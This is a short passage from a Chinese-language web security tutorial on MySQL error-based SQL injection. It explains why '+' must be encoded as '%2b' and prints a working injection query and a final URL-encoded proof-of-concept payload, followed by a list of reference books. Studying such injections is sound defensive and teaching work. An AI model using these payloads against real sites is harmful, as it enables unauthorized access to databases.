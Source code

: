 `select min(@a:=1) from information_schema.tables group by concat(version(),@a:=(@a+1)%2);`

![](../../../../.gitbook/assets/tu-pian%20%2814%29.png)

这里我们需要注意，由于浏览器会进行`urlencode` ，所以我们语句中的`+` 会被转为`空格` ，会导致我们的语句无法正常的传入数据库，因此我们需要用`%2b` 替换`+` ，因此最终POC如下：

`ddd%20%27%20and%20(select%20min(@a:=1)%20from%20test%20group%20by%20concat(version(),@a:=(@a%2b1)%2))%20--+`

![](../../../../.gitbook/assets/tu-pian%20%2825%29.png)

## 参考资料

1. 《Web安全攻防 渗透测试实战指南》
2. 《PHP WEB 安全开发实战》
3. 《SQL注入攻击与防御第2版》
4. [  Mysql报错注入原理分析\(count\(\)、rand\(\)、group by\)](https://www.2cto.com/article/201604/498394.html)

